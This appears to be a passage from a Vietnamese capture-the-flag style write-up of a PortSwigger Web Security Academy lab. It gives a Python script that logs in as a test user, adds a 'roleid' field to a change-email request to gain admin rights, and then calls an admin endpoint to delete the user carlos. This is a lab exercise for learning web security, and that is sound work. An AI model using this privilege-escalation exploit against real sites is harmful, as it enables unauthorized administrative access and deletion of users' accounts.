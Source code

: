 Truy cập trang quản trị và mình xóa người dùng carlos bằng url

```
/admin/delete?username=carlos
```

![image](https://hackmd.io/_uploads/S1K-Yx3Y6.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0a79004703d5d0d780084e9d00fd00c6.web-security-academy.net'

session = requests.Session()

data = {
    'username': 'wiener',
    'password': 'peter',
}

response = requests.post(
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False,
)

session = response.headers['Set-Cookie'].split(';')[0].split('=')[1]

cookies = {
    'session': session
}

data = {
    "email":"cuong@gmail.com",
    "roleid":2
}

response = requests.post(
    url + '/my-account/change-email',
    cookies=cookies,
    data=data,
    verify=False,
)

params = {
    'username': 'carlos',
}

response = requests.get(
    url + '/admin/delete',
    params=params,
    cookies=cookies,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
```